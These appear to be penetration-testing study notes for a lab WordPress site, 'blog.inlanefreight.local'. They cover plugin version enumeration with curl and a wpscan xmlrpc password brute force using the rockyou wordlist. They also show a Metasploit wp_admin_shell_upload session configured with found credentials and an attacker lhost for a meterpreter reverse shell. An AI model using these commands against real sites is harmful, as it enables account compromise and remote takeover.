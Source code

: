 #

# CMS

## WordPress

To find plugin versions , ex : wp-sitemap-page  
`http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`

`curl http://blog.inlanefreight.local/?p=1 | grep plugin`  
`curl http://blog.inlanefreight.local | grep plugin`

**wpscan**

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`.  
The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through /xmlrpc.php.  
***The `xmlrpc` method is preferred as it’s faster.***

```
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```
